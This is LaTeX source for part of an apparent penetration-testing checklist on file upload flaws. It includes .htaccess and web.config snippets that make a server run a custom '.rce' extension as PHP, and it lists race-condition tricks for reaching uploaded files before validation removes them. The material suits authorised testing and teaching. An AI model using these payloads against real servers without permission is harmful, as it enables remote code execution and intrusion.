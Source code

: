\documentclass[11pt]{article}
\begin{document}
\subsection{Configuration File Upload Tests}

\begin{checklistbox}
\begin{itemize}
    \item[\checkmark] Try uploading \texttt{.htaccess} (Apache) with:
    \begin{lstlisting}[style=code]
AddType application/x-httpd-php .rce
    \end{lstlisting}
    \item[\checkmark] Try uploading \texttt{web.config} (IIS) with:
    \begin{lstlisting}[style=code]
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
  <system.webServer>
    <handlers>
      <add name="php" path="*.rce" verb="*" modules="FastCgiModule" 
           scriptProcessor="C:\PHP\php-cgi.exe" resourceType="File" />
    </handlers>
  </system.webServer>
</configuration>
    \end{lstlisting}
    \item[\checkmark] Try uploading \texttt{uwsgi.ini} (Python/WSGI) if applicable
\end{itemize}
\end{checklistbox}

\begin{warning}
\texttt{.htaccess} files only affect the directory they are placed in and its subdirectories. For the upload to work, the \texttt{.htaccess} file must be uploaded to the same directory where payloads are stored, and Apache must have \texttt{AllowOverride} enabled for that directory.
\end{warning}

\subsection{Race Condition Tests}

\begin{checklistbox}
\begin{itemize}
    \item[\checkmark] If the server validates after storing (validate-then-delete), try requesting the file immediately after upload
    \item[\checkmark] Use Burp Turbo Intruder or parallel requests to maximize race window
    \item[\checkmark] For URL-based uploads, make the remote file respond slowly to widen the window
    \item[\checkmark] Pad the file with junk data after the payload to slow processing
    \item[\checkmark] Test if temporary directory names are predictable (e.g., \texttt{uniqid()})
\end{itemize}
\end{checklistbox}
\end{document}
